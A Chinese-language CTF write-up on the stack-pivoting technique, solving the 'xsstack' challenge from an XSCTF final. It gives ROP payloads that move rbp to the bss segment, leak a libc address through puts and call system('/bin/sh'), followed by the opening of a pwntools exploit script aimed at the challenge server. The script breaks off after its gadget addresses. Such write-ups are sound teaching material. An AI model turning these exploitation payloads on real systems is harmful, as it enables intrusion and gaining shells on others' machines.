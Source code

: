 ```yaml
---
title: 栈迁移
date: '2025-01-12 18:53:15'
updated: '2025-04-11 18:24:36'
---
```

## 函数序和函数跋
![](/images/532b18ded05410de8a577fabdf734733.jpeg)

![](/images/bfa844c63892c8e553c527be78c6ee43.jpeg)

## 栈迁移原理
![](/images/ed03a17874b502564156491810a42bcd.jpeg)

![](/images/48462f6844922e1e44a5f21cf1d9f556.jpeg)

## 题目
### XSCTF 决赛 xsstack
```python
payload=b'a'*0x50+p64(bss_base)+p64(call_read)
```

把 rbp 迁移到 bss_base 段，并且再次调用 read 函数向 bss 段写入内容

```python
payload=p64(rdi)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(rbp)+p64(bss_base+0x300+0x50)+p64(call_read)+b'a'*0x20

payload+=p64(bss_base-0x58)+p64(leave_ret)
```

接着是利用上面的 read 往 bss 段上面写上泄露 libc 的 rop 链，rop 链输出 libc 地址再在结尾调用一遍 read 函数，payload 结尾将 rbp 覆盖成 rop 链开始的地址（bss_base - ROP 链长度），

把返回地址覆盖成 leave_ret（mov rsp , rbp ; pop rbp ; pop rip ; ）

```python
payload=(b'a'*8+p64(rdi)+p64(binsh)+p64(rdi+1)+p64(system)).ljust(0x50,b'\x00')
payload+=p64(bss_base+0x300)+p64(leave_ret)
```

最后利用上面 rop 链调用的 read 函数输入最后的 rop 链 getshell

exp：

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

link=remote("43.248.97.213",30170)
# link=process("./pwn")
elf=ELF("./pwn")

rbp=0x401228
rdi=0x401225
put_test=0x4011F1
puts_got=0x404018
read_got=0x404020
call_puts=0x4011FB
call_read=0x401200
bss_base=0x404040+0x500
```